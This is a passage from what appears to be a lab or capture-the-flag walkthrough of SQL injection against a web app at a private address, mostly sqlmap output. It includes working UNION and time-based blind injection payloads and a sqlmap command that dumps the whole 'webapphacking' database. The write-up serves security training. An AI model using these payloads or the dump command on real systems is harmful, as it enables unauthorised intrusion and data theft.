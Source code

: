 ```shell

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: search=123' UNION ALL SELECT CONCAT(0x716b6b6a71,0x527466504e7a64425265527145465152684576647849594d6b4d4176444b6f616a76784d52667265,0x717a716271),NULL,NULL-- -
---
[07:10:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.10 (cosmic)
web application technology: Apache 2.4.34, PHP
back-end DBMS: MySQL >= 5.0.12
[07:10:01] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapphacking

[07:10:01] [INFO] fetched data logged to text files under '/home/v4ler1an/.local/share/sqlmap/output/172.16.86.146'

[*] ending @ 07:10:01 /2023-11-09/

```

As we can see, the SQL Injection Vulnerability is availiable, and we can find a database named `webapphacking`. We can dump the data from it:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ sqlmap -u "http://172.16.86.146/welcome.php" --data "search=1" -D webapphacking --dump-all --batch
        ___
       __H__                                                                                                                                                                                         
 ___ ___[)]_____ ___ ___  {1.7.10#stable}                                                                                                                                                            
|_ -| . [(]     | .'| . |                                                                                                                                                                            
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:12:45 /2023-11-09/

[07:12:45] [INFO] resuming back-end DBMS 'mysql' 
[07:12:45] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.16.86.146/login.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=rp454e7tjm4...1nuoo7luru'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=123' AND (SELECT 3657 FROM (SELECT(SLEEP(5)))qbbB) AND 'stnZ'='stnZ

```